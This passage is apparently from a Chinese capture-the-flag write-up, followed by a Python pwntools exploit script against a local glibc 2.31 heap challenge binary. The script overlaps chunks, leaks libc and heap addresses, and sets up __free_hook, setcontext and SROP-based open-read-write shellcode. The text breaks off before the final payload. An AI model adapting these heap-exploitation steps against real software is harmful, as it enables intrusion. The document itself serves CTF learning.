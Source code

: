 还好最后是够了。接下来就是 `__free_hook` 的过程。因为是 2.31，所以得利用 `magic_gadget + setcontext` 控制程序流。

这里研究了一下 SROP，然后又顺手写了个 [FAST_HEAP_SROP](https://github.com/Nova-Noir/PwnUtils/blob/main/pwnutils/gadgets/srop.py) 方便以后用。

不过等考完试之后估计还要优化下，现在不优美。



exp:

```python
from pwn import *
from typing import Any

from pwnutils.protocol.protobuf import serialize as pb_serialize
from pwnutils.gadgets.srop import FAST_HEAP_SROP
from pwnutils.gadgets.orw import orw_shellcode

context(os='linux', arch='amd64', terminal='wt.exe bash -c'.split(' '))
context.log_level = 'DEBUG'


sh = process(['./pwn'])
elf = ELF('./pwn')
libc = ELF('/home/nova/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc-2.31.so')


def new(idx: int, size: int, content: bytes):
    sh.sendafter(b'now: \n', pb_serialize([1*2, idx*2, size*2, content]))

def edit(idx: int, content: bytes):
    sh.sendafter(b'now: \n', pb_serialize([2*2, idx*2, 2, content]))

def show(idx: int):
    sh.sendafter(b'now: \n', pb_serialize([3*2, idx*2, 2, b'A']))

def delete(idx: int):
    sh.sendafter(b'now: \n', pb_serialize([4*2, idx*2, 2, b'A']))



new(0, 0, b'')
new(1, 0x10, b'')
new(0x20, 0x10, b'')
edit(0, p64(0)*3+p64(0x51)+b'\x00'.ljust(0x48, b'\x00')+p64(0x91))
delete(1)
new(2, 0x88, b'A'*0x70)
edit(2, b'\x00'.ljust(0x68, b'\x00') + p64(0x451))
new(10, 0xf0, b'')
new(11, 0xf0, b'')

delete(0x20)
new(12, 0xf0, b'')
show(12)

libc_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x1ebbe0
sh.recv(0x9a+0x38)
heap_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x510
free_hook = libc_base + libc.sym['__free_hook']
open_ = libc_base + libc.sym['open']
read_ = libc_base + libc.sym['read']
write_ = libc_base + libc.sym['write']
mprotect = libc_base + libc.sym['mprotect']
set_context_61 = libc_base + libc.sym['setcontext'] + 61
magic_gadget = libc_base + 0x1547a0
```